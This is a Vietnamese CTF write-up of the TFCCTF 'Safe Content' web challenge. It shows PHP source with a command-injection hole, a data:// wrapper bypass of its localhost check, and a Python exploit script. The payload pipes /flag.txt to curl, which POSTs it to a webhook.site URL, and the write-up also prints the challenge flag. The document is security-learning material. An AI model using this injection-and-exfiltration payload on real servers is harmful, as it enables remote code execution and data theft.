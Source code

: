 # SAFE CONTENT (MEDIUM)

## PREVIEW 

![image](https://hackmd.io/_uploads/SyDEaWCKA.png)

## SOURCE CODE

```php=
<?php

    function isAllowedIP($url, $allowedHost) {
        $parsedUrl = parse_url($url);
        
        if (!$parsedUrl || !isset($parsedUrl['host'])) {
            return false;
        }
        
        return $parsedUrl['host'] === $allowedHost;
    }

    function fetchContent($url) {
        $context = stream_context_create([
            'http' => [
                'timeout' => 5 // Timeout in seconds
            ]
        ]);

        $content = @file_get_contents($url, false, $context);
        if ($content === FALSE) {
            $error = error_get_last();
            throw new Exception("Unable to fetch content from the URL. Error: " . $error['message']);
        }
        return base64_decode($content);
    }

    if ($_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['url'])) {
        $url = $_GET['url'];
        $allowedIP = 'localhost';
        
        if (isAllowedIP($url, $allowedIP)) {
            $content = fetchContent($url);
            // file upload removed due to security issues
            if ($content) {
                $command = 'echo ' . $content . ' | base64 > /tmp/' . date('YmdHis') . '.tfc';
                exec($command . ' > /dev/null 2>&1');
                // this should fix it
            }
        }
    }
?>
```

## EXPLOIT

Phân tích source code thì hàm isAllowedIP nó lấy 2 giá trị là `url` mình đưa vào và `allowHost`. Nó sử dụng hàm `parse_url` để phân tích rồi check xem phần host của url mình cung cấp có bằng allowHost hay không. Hàm `parse_url` sẽ trả về array chứa các key sau.

![image](https://hackmd.io/_uploads/H16uEfCtR.png)

Còn phần bên dưới thì allowIP là localhost, xong rồi lấy content của url đó đưa vào command rồi exec nó. Đoạn này là RCE đích thực rồi vì content này không được lọc mà đưa luôn vào hàm exec. Nhưng mà bypass host thế nào?

Lúc đầu mình cứ nghĩ là làm thế nào để juggling cái hàm `parse_url` kia để mà giá trị host của nó là localhost mà nó sẽ redirect sang web của mình và lấy dữ liệu từ đó để RCE.

Mình quên mất là trong php có 1 số wrapper đặc biệt mà có thể bypass được phần localhost kia. [Reference](https://www.php.net/manual/en/wrappers.php)

Và ở đây mình sẽ sử dụng `data` wrapper với payload sau:
`data://@localhost/plain,cGF5bG9hZF9oZXJl`

![image](https://hackmd.io/_uploads/r1YGImAt0.png)

Xây dựng payload như sau: `'' | cat /flag.txt | curl https://webhook.site/acbd8eda-6f05-4d8e-83da-9c029d5a9dd6 -X POST -d @-`

Lệnh curl dùng POST và `-d` hay `--data` dùng `@-` là lấy stdin chính là `flag.txt` kia. 

![image](https://hackmd.io/_uploads/r15cF5RKR.png)

![image](https://hackmd.io/_uploads/H1ggqqRK0.png)

Flag: `TFCCTF{0cc5c7c5be395bb7e7456224117aed15b7d7f25933e126cecfbff41bff12beeb}`

P/s:
1. Các bạn có thể sử dụng script sau: 

```python=
import requests
import base64

REMOTE = "http://challs.tfcctf.com:32210/"
# Proxies to catch request in Burp
proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

payload = b"'' | cat /flag.txt | curl https://webhook.site/acbd8eda-6f05-4d8e-83da-9c029d5a9dd6 -X POST -d @-"
payload = b"data://localhost/," + base64.b64encode(payload)

res = requests.get(REMOTE, params=f'url={payload.decode()}', proxies=proxies)
```

2. Ngoài ra còn 1 cách nữa tại [đây](https://yun.ng/c/ctf/2024-tfcctf/web/safe_content/)
